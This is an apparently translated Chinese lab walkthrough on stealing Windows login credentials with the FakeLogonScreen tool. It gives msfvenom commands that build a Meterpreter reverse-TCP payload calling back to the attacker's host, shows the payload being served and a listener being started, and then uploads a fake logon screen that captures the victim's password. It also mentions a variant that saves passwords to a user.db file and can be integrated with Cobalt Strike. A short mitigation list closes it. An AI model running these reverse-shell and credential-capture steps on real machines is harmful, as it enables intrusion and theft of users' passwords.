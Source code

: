 # FakeLogonScreen抓取Windows凭证

### **实践中使用的配置**

**攻击者：**

  **操作系统：** Kali Linux 2020.1

  **IP：** 192.168.1.13

**目标：**

  **作业系统：** Windows 10（Build 18363）

  **IP：** 192.168.1.11

**情境**

有一个系统与攻击者连接到相同的网络，并且攻击者正在寻找目标系统的凭据。目标已经拥有的信息是IP地址和OS系统的知识。这种信息很容易获得。

**有效载荷创建**

现在，我开始使用msfvenom工具根据目标系统的OS来制作有效负载。我以LHOST的身份提供了Kali的IP地址。当目标计算机运行Windows时，我将有效负载设置为可以轻松执行的可执行文件。制作有效负载之后，我运行了Python One-liner以创建一个HTTP服务器，该服务器将在目标计算机的端口80上托管有效负载。

| 12   | msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.233.128 lport=4444 -f exe >> payload.exepython -m SimpleHTTPServer 80 |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

![img](https://i1.wp.com/1.bp.blogspot.com/-VlGWhrAJWaA/XkVIhy6mJ-I/AAAAAAAAiqc/kV9bxccVpQcyUveUZxfxNQbYXG9CLxTbwCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

现在，在现实生活中，攻击者将使用某种社会工程攻击来操纵目标用户，以将恶意负载下载到他们的系统上。这可以在进行实际攻击之前很长时间完成。

**起始侦听器**

由于我们已经准备好并托管了有效负载。现在我们需要启动一个侦听器，在该侦听器中，我们将从有效负载中接收会话。设置正确的配置后，我直接进入目标计算机并执行了有效负载。同样，这是一个实验室环境演示。实际情况会有所不同。 

**上载FakeLogonScreen可执行文件**

在获得Meterpreter会话之后，我们将FakeLogonScreen.exe上载到目标系统。可以在克隆的目录中找到此可执行文件。成功上传后，我们使用shell命令进入目标计算机的命令行。现在，如给定的图像所示，运行可执行文件。

| 12345678 | use multi/handlerset payload windows/meterpreter/reverse_tcpset lhost 192.168.233.128set lport 4444runupload FakeLogonScreen.exeshellFakeLogonScreen.exe |
| -------- | ------------------------------------------------------------ |
|          |                                                              |

![img](https://i2.wp.com/1.bp.blogspot.com/-AhwYKe4KaOY/XkVIiADvF5I/AAAAAAAAiqg/_Lp_VckUAT0QeLQl6ARhPn9aMFQQ7dNjQCLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

### **在目标端输入凭证**

一旦通过外壳运行了可执行文件，目标系统上的所有当前窗口就会最小化，并弹出登录屏幕，如给定的图像所示。这似乎是一个非常真实的登录屏幕。目标用户假定必须有意外注销。因此，为了承担他/她的工作，目标用户在不知不觉中输入了凭据。

![img](https://i2.wp.com/1.bp.blogspot.com/-rl3LBWC8Le4/XkVIieInM0I/AAAAAAAAiqk/oP9njmDjyBMS4DMl_jiLtE6gFrF8S42mQCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

现在，为了证明已检查密码，我们首先输入了错误的凭据。登录屏幕返回错误“密码不正确。再试一次”。这证明目标用户必须输入有效的凭据才能通过。

![img](https://i2.wp.com/1.bp.blogspot.com/-zenZFVEMQkU/XkVIixGlkdI/AAAAAAAAiqo/akINf0-4fwUbUaeMb4xVEpphK41kKssIgCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

接下来，我们输入了有效的凭据，然后看到所有最小化的窗口都恢复了原来的状态。

### **拿取凭证**

让我们回到攻击者机器上，看看我们是否能够获取这些密码。如下图所示，我们看到FakeLogonScreen侦听器的工作方式类似于按键记录器。我们首先在密码字段中输入“密码错误”，以检查错误的情况。然后，我们输入正确的密码“ 123”，并成功获取了目标用户的密码。

![img](https://i1.wp.com/1.bp.blogspot.com/-rZcvC7fT7xk/XkVIiz0BwcI/AAAAAAAAiqs/lDjHk79C8gk-1xtEDhgv7DiI0R513gA3QCLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

### **附加信息**



我们先前下载的zip文件中还有另一个可执行文件。它被命名为“ FakeLogonScreenToFile.exe”。该文件的工作方式类似，但是除了显示密码外，还将密码存储在以下位置：

％LOCALAPPDATA％\ Microsoft \ user.db

该工具也可以在Windows 7上使用。尽管已经达到其终止寿命，但仍有大量系统在生产环境中运行Windows 7。如果需要，可以在“ DOTNET35”目录中找到它。

您还可以集成此工具以与Cobalt Strike一起使用。在**[这里查看](https://raw.githubusercontent.com/bitsadmin/fakelogonscreen/master/demo.gif)**。

### **缓解措施**

- 验证下载源。
- 监视AppData目录中的user.db文件。
- 正确检查登录屏幕中的所有链接。
- 实施较短的密码更改策略。
